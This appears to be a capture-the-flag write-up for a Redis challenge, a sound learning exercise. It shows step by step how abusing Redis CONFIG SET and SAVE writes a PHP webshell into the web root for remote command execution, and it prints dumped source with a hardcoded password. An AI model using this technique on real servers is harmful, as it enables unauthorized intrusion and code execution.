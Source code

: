 # Redis
We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you some

![Access](A-Redis-access.png)

## Solution
The redis console in the kitchen has a vulnerability that allows to dump the contents of the database to a file in the file system. To simplify the execution of payloads we can build a helper function as follows:
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```

This way we simply send the commands we want redis to execute with parameters separated by commas, to exploit the vulnerability we have to configure the database backup directory to the web directory and the database backup file to a `.php` file, save the database to a file and then call the new file from the web server to execute our code.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,1.php
cmd set,2,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Findex%2Ephp%22%29%3B%20%3F%3E
cmd set,3,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Frce%2Ephp%22%29%3B%20%3F%3E
Running: redis-cli --raw -a '<password censored>' 'set' '3' '<?php readfile("/var/www/html/maintenance.php"); ?>'
OK
cmd save
Running: redis-cli --raw -a '<password censored>' 'save'
OK
```

The php file will contain some REDIS database headers but those do not stop PHP from executing the rest of the code.
```
curl localhost/1.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�Km�_used-mem�(
 aof-preamble��� �-<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
�3<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
    die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
  die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
  die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
```

## Full RCE
We can achieve upload a simple RCE php with the following sequence.
1. Load our helper function to simplify the exploitation
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```
2. Flush the database to avoid undesired content, configure redis to store out database content into a php file and save the database.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,rce.php
cmd 'set,backup1,%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E'
cmd save
```
3. Call our file using `curl` to execute whatever command we want.
```
curl localhost/rce.php?cmd=ls --output -
```
* Spaces have to be replaced with `+` or `%20` to succeed.
```
curl localhost/rce.php?cmd=ls%20-al --output -
```

![Solution](A-Redis-solution.png)